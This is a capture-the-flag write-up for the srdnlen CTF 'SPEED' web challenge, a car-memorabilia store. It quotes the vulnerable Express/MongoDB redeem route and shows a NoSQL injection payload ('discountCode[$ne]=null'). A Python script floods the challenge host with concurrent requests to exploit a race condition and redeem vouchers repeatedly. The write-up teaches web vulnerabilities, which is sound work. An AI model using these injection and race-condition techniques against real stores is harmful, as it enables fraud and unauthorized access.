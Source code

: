 ## SPEED - srdnlen CTF - web (50)

-------------

--------------


This web app is a Pixar Cars themed online store.

There are multiple functions on the page:

1. registering account
2. logging in
3. shopping sweet cars memorabilia
4. checking your cart
5. redeeming a voucher

The app is JSON based and we there is cookie usage for sessions.

We are provided with the app.js and routes.js file. After analyzing these files, the objective or task at hand is to find some way to get more discount codes so that we can buy the 4th item: "Lightning McQueen's Secret Text" for 50 points.

With this, we need to further analyze the discount code functions/routes. In app.js, not much is given to us except that the codes are randomly created and inserted into a mongoDB. Next we need to see how routes.js handles user input for the redeem gift card function.

From this snippet of code we see that no input validation is performed for the gift card redeem:

```
router.get('/redeem', isAuth, async (req, res) => {
    try {
        const user = await User.findById(req.user.userId);

        if (!user) {
            return res.render('error', { Authenticated: true, message: 'User not found' });
        }

        // Now handle the DiscountCode (Gift Card)
        let { discountCode } = req.query;
        
        if (!discountCode) {
            return res.render('error', { Authenticated: true, message: 'Discount code is required!' });
        }

        const discount = await DiscountCodes.findOne({discountCode})
```

From here, we take our knowledge of the backend MongoDB and lack of input validation to craft a NoSQL injection into the discountCode paramter through burpsuite:

```
/redeem?discountCode[$ne]=null
```

By appending [$ne]=null to the discountCode paramter, the backend MongoDB query turns int:

```
DiscountCodes.findOne({ discountCode: { $ne: null } });
```

The $ne means not equal and { $ne: null } tells MongoDB to match any document where the discount code is not null.



------------


We do this 3 times to get enough money to purchase the sweet Lightning McQueen text and get our flag for this challenge!

Not so quick, the discount codes can only be used once a day based on the following code:

```
// Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &&
                              lastRedemption.getMonth() === today.getMonth() &&
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: 'You have already redeemed your gift card today!' });
            }
        }

        // Apply the gift card value to the user's balance
        const { Balance } = await User.findById(req.user.userId).select('Balance');
        user.Balance = Balance + discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve => setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();

        return res.json({
            success: true,
            message: 'Gift card redeemed successfully! New Balance: ' + user.Balance // Send success message
        });
```

There is a delay function when the codes are redeemed, so if we force the system to process multiple codes for one user at the same instance or under the delay threshold we should be able to redeem multiple codes. This is an example of a race conditions vulnerability.

To exploit this vulnerability, I make a python script that will send many requests with the above payload so that I can bypass the time of day check:

```
import requests
from concurrent.futures import ThreadPoolExecutor

# Define the URL and headers
url = "http://speed.challs.srdnlen.it:8082/redeem"
headers = {
    "Host": "speed.challs.srdnlen.it:8082",
    "Accept-Language": "en-US,en;q=0.9",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36",
    "Accept": "*/*",
    "Referer": "http://speed.challs.srdnlen.it:8082/redeemVoucher",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": "jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI2NzhlODZlOGQ4YjZmYzFkNTNlZmI3NjAiLCJpYXQiOjE3MzczOTM4OTcsImV4cCI6MTczNzQyOTg5N30.B6tFcK_ayKshfkfRDKYA3q9GnjZzkA6BTWSeW1_NxrY",
    "Connection": "keep-alive",
}

# Define the query parameters
params = {
    "discountCode[$ne]": "null"
}

# Function to send a single request
def redeem_code():
    response = requests.get(url, headers=headers, params=params)
    print(response.json())

# Exploit by sending multiple concurrent requests
with ThreadPoolExecutor(max_workers=10) as executor:
    futures = [executor.submit(redeem_code) for _ in range(10)]

# Check the responses to see if multiple redemptions occurred
```

The results:

```
{'success': True, 'message': 'Gift card redeemed successfully! New Balance: 20'}
{'success': True, 'message': 'Gift card redeemed successfully! New Balance: 40'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': True, 'message': 'Gift card redeemed successfully! New Balance: 60'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
{'success': False, 'message': 'You have already redeemed your gift card today!'}
```

When I go back to my browser to check my balance:

----------


From here, we can buy the Secret Text item and get our flag:


-------



#### Materials used

https://portswigger.net/web-security/nosql-injection
https://portswigger.net/web-security/race-conditions
